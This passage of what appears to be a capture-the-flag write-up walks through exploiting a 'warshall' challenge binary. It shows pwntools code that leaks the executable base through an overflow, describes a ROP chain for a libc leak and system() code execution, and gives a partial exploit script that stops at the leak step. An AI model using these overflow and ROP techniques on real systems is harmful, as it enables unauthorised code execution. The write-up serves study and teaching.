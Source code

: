 ```python
l +=  struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

l = int(l, 16)
exec_base = l - 0x96b
print "EXEC BASE LEAK"
print hex(exec_base)
```

![Error](/assets/images/CJFinal-1.png)

### Writing the ROP chain
The "Build direct road" function allows us to write values into the road array. Since we can overflow into the return address (without affecting the stack canary), we can also write values that we need into it.

We need to write two chains, one to call puts with puts got as the parameter (to get libc leak), and another to call system and get full RCE.

Note: In my experience, ever since libc 2.27, the second parameter of the system function must be set to NULL in order to call system without a segmentation fault. That is why there are multiple zeros put into the ropchain.

Below is my full exploit:

```python


from pwn import *
import string
import random

p = process('./warshall')

def create_city(name):
  p.sendlineafter('>', '1')
  p.sendlineafter('name:', name)

def build_road(city1, city2, distance):
  p.sendlineafter('>', '2')
  p.sendlineafter('1:', city1)
  p.sendlineafter('2:', city2)
  p.sendlineafter('):', distance)

def short_path(city1, city2):
  p.sendlineafter('>', '3')
  p.sendlineafter('1:', city1)
  p.sendlineafter('2:', city2)

def end():
  p.sendlineafter('>', '4')

list_names = []
for i in range(100):
  list_names.append(''.join([random.choice(string.ascii_lowercase) for j in range(10)]))
  create_city(list_names[i])

# Overflow
create_city('pwner')


## EXEC LEAK
short_path('pwner', list_names[51])
```